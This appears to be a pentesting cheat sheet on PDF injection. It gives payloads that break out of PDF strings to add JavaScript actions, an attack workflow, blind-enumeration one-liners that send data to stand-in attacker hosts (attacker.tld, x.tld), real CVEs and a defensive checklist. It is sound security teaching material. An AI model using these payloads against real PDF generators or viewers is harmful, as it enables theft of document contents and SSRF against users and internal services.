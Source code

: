 # PDF Injection


**If your input is being reflected inside a PDF file, you can try to inject PDF data to execute JavaScript, perform SSRF or steal the PDF content.**  
PDF syntax is extremely permissive – if you can break out of the string or dictionary that is embedding your input you can append totally new objects (or new keys in the same object) that Acrobat/Chrome will happily parse.  
Since 2024 a wave of bug-bounty reports have shown that *one unescaped parenthesis or back-slash is enough* for full script execution.

## TL;DR – Modern Attack Workflow (2024)
1. Find any user-controlled value that ends up inside a **(parenthesis string)**, `/URI ( … )` or `/JS ( … )` field in the generated PDF.
2. Inject `) ` (closing the string) followed by one of the primitives below and finish with another opening parenthesis to keep the syntax valid.
3. Deliver the malicious PDF to a victim (or to a backend service that automatically renders the file – great for blind bugs).
4. Your payload runs in the PDF viewer:
   * Chrome / Edge → PDFium Sandbox
   * Firefox → PDF.js (see CVE-2024-4367)
   * Acrobat → Full JavaScript API (can exfiltrate arbitrary file contents with `this.getPageNthWord`)  

Example (annotation link hijack):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next ( 
```
```*The first `)` closes the original URI string, we then add a new **Action** dictionary that Acrobat will execute when the user clicks the link.*

## Useful Injection Primitives
| Goal | Payload Snippet | Notes |
|------|-----------------|-------|
| **JavaScript on open** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Executes instantly when the document is opened (works in Acrobat, not in Chrome). |
| **JavaScript on link** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Works in PDFium & Acrobat if you control a `/Link` annotation. |
| **Blind data exfiltration** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Combine with `this.getPageNthWord` inside JS to steal content. |
| **Server-Side SSRF** | Same as above but target an internal URL – great when the PDF is rendered by back-office services that honour `/URI`. |
| **Line Break for new objects** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | If the library lets you inject new-line characters you can create totally new objects. |

## Blind Enumeration Trick
Gareth Heyes (PortSwigger) released a one-liner that enumerates every object inside an unknown document – handy when you cannot see the generated PDF:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
```The code iterates over the Acrobat DOM and makes outbound requests for every property/value pair, giving you a *JSON-ish* dump of the file.  
See the white-paper “Portable Data **ex**Filtration” for the full technique.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Arbitrary JavaScript execution in Firefox’s PDF.js prior to 4.2.67 bypassed the sandbox with a crafted `/JavaScript` action.  
* **Bug bounty 2024-05** – Major fintech allowed customer-supplied invoice notes that landed in `/URI`; report paid $10k after demonstrated SSRF to internal metadata host using `file:///` URI.
* **CVE-2023-26155** – `node-qpdf` command-injection via unsanitised PDF path shows the importance of escaping backslashes and parentheses even *before* the PDF layer.  

## Defensive Cheatsheet
1. **Never concatenate raw user input** inside `(`…`)` strings or names. Escape `\`, `(`, `)` as required by §7.3 of the PDF spec or use hex strings `<...>`.
2. If you build links, prefer `/URI (https://…)` that you *fully* URL-encode; block `javascript:` schemes in client viewers.
3. Strip or validate `/OpenAction`, `/AA` (additional actions), `/Launch`, `/SubmitForm` and `/ImportData` dictionaries when post-processing PDFs.
4. On the server side, render untrusted PDFs with a *headless converter* (e.g. qpdf –decrypt –linearize) that removes JavaScript and external actions.
5. Keep PDF viewers up to date; PDF.js < 4.2.67 and Acrobat Reader before July 2024 patches allow trivial code execution.


## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (updated May 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>

